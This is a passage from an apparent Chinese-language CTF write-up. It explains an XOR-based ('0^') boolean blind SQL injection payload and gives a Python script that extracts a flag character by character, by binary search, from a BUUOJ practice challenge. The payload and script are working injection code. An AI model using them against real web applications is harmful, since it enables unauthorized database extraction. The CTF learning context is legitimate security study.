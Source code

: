 

### 异或

这东西和那个堆叠注入一样，就见过一次，从此再也没用过，但这次就用到了。用它可以起到代替or的作用。
`0^(ascii(substr((select(flag)from(flag)),1,1))>1)`

但还有一些是没有用异或，用的是if，可if有局限性，在id为数字型时，可以直接 `select * from users where id=if(1=1,1,0)`，但如果id单引号字符型或双引号字符型，那就必须在if前加or或and。

就下来就时很容易的`bool注入`了
```py
import requests
import time

url = "http://be7c3bbe-f847-4c30-bfbd-baa005a54773.node3.buuoj.cn/index.php"
payload = {
	"id" : ""
}
result = ""
for i in range(1,100):
	l = 33
	r =130
	mid = (l+r)>>1
	while(l<r):
		payload["id"] = "0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
		html = requests.post(url,data=payload)
		print(payload)
		if "Hello" in html.text:
			l = mid+1
		else:
			r = mid
		mid = (l+r)>>1
	if(chr(mid)==" "):
		break
	result = result + chr(mid)
	print(result)
print("flag: " ,result)
```

---

## 反序列化



















